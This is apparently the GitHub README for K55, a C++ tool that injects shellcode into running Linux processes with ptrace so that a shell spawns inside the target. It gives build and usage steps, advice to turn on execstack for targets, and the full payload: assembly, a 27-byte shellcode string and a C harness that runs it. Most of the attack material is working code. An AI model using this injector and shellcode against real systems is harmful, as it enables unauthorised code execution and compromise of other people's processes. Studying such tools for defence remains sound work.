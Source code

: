 ## K55 - Linux x86_64 Process Injection Utility (C++11)

<p align="center">
  <img src="https://github.com/josh0xA/K55/blob/main/imgs/k55logo.png?raw=true">
</p>

<p align="center">
<a href="https://www.codacy.com/gh/josh0xA/K55/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=josh0xA/K55&amp;utm_campaign=Badge_Grade"><img src="https://app.codacy.com/project/badge/Grade/5601be2ff0bb47feae3090d098cec01f"/></a>
<a href="https://lbesson.mit-license.org/" target="_blank"><img src="https://img.shields.io/badge/License-MIT-blue.svg" alt="lisence" /></a>
</p>

## About K55 
(pronounced: "kay fifty-five")<br/>
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space. In the future, I will allow users to input there own shellcode via command line arguments.<br/>

## Installation
1.  ``git clone https://github.com/josh0xA/K55.git``<br/>
2.  ``cd K55``<br/>
3.  ``chmod +x build-install.sh``<br/>
4.  ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``./K55 k55_test_process``<br/>

## K55 In Action
- A shell is spawned in k55_test_process when the K55 shellcode injector is ran (as root). 
### Injecting Into Given Process
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/injector_proof.png?raw=true">
</p> 

### Shell Spawned In Target
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/target_proof1.png?raw=true">
</p>

## Limitations
Obviously, ``ptrace(PTRACE_POKETEXT...)`` calls are not the most disguised. So, some applications can limit the effect of K55. Although, for security testing, make sure to turn on ``execstack`` for your target applications. For example if I'm testing on gdb, before I would inject, I would run the following: ``sudo execstack -s /usr/bin/gdb``. Install execstack from your distrobutions package manager. For Arch Linux users, you can find execstack on the AUR. 

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

### Assembly Implementation of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
## References
http://shell-storm.org/shellcode/files/shellcode-806.php <br/>
https://0x00sec.org/t/linux-infecting-running-processes/1097 <br/>

## License 
MIT License <br/>
Copyright (c) Josh Schiavone
